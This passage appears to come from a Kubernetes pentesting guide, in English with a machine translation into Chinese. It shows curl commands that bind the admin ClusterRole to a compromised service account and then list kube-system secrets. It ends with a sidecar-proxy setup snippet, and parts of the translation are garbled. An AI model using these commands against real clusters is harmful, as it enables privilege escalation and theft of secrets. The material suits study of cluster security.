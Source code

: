 The purpose of this JSON file is to bind the admin “CluserRole” (line 11) to the compromised service account (line 16).

该JSON文件的目的是将管理员“ cluserrole”（第11行）绑定到受损的服务帐户（第16行）。

Now, all we need to do is to send our JSON as a POST request to the API using the following CURL command:

现在，我们要做的就是使用以下curl命令将我们的JSON作为POST请求发送到API：

```bash
curl -k -v -X POST -H "Authorization: Bearer <JWT TOKEN>" \ 
-H "Content-Type: application/json" \
https://<master_ip>:<port>/apis/rbac.authorization.k8s.io/v1/namespaces/default/rolebindings \
 -d @malicious-RoleBinging.json
```

After the **admin role is bound to the “compromised-svc” service account**, we can use the compromised service account token to **list secrets**. The following CURL command will do this:

**管理员角色被绑定到“妥协的SVC”服务帐户**之后，我们可以将折衷的服务帐户令牌使用到**列表秘密**。 以下卷曲命令将执行此操作：

```bash
curl -k -v -X POST -H "Authorization: Bearer <COMPROMISED JWT TOKEN>"\
-H "Content-Type: application/json"
https://<master_ip>:<port>/api/v1/namespaces/kube-system/secret
```

## Other Attacks

##其他攻击

### S**idecar proxy app**

By default there isn't any encryption in the communication between pods .Mutual authentication, two-way, pod to pod.

默认情况下，Pods之间的通信中没有任何加密。Mutual认证，双向，POD到POD。

#### Create a sidecar proxy app <a href="#create-a-sidecar-proxy-app" id="create-a-sidecar-proxy-app"></a>

#### Create a sidecar proxy app <a href="#create-a-sidecar-proxy-app" id="create-a-sidecar-proxy-app"></a>

Create your .yaml

创建您的.yaml

```bash
kubectl run app --image=bash --command -oyaml --dry-run=client > <appName.yaml> -- sh -c 'ping google.com'
```

Edit your .yaml and add the uncomment lines:

编辑您的.YAML并添加未点击行：

```yaml
#apiVersion: v1
#kind: Pod
#metadata:
#  name: security-context-demo
#spec:
#  securityContext:
#    runAsUser: 1000
#    runAsGroup: 3000
#    fsGroup: 2000
#  volumes:
#  - name: sec-ctx-vol
#    emptyDir: {}
```